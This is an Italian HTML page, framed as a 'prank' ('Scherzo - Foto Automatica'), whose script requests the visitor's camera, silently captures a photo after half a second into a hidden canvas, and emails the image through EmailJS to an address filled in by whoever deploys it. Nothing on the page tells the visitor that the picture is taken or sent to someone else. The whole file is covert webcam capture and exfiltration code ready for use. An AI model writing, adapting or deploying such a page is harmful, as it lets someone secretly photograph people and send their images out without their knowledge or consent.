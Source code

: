 <!DOCTYPE html>
<html lang="it">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Scherzo - Foto Automatica</title>
</head>
<body>
    <h2>Inizia lo scherzo!</h2>
    <video id="video" width="640" height="480" autoplay></video>
    <canvas id="canvas" style="display:none"></canvas>

    <script>
        let video = document.getElementById('video');
        let canvas = document.getElementById('canvas');
        let context = canvas.getContext('2d');

        // Richiedere il permesso per la fotocamera
        navigator.mediaDevices.getUserMedia({ video: true })
            .then(function(stream) {
                video.srcObject = stream;
            })
            .catch(function(error) {
                console.log("Errore nell'accesso alla fotocamera: ", error);
            });

        // Funzione che scatta la foto dopo 0,5 secondi
        setTimeout(function() {
            context.drawImage(video, 0, 0, canvas.width, canvas.height);
            let photo = canvas.toDataURL('image/jpeg');

            // Invia la foto via EmailJS
            sendPhotoToEmail(photo);
        }, 500); // Dopo 0,5 secondi scatta la foto

        function sendPhotoToEmail(photo) {
            // Qui usiamo EmailJS per inviare la foto tramite email
            emailjs.send("service_mrkzn2a", "template_XXX", {
                photo: photo,
                to_email: "la_tua_email@gmail.com" // Sostituisci con la tua email
            })
            .then(function(response) {
                console.log("Email inviata con successo", response);
            }, function(error) {
                console.log("Errore nell'invio dell'email", error);
            });
        }
    </script>

    <script type="text/javascript" src="https://cdn.emailjs.com/dist/email.min.js"></script>
    <script>
        emailjs.init("YOUR_USER_ID"); // Sostituisci "YOUR_USER_ID" con il tuo ID utente di EmailJS
    </script>
</body>
</html>
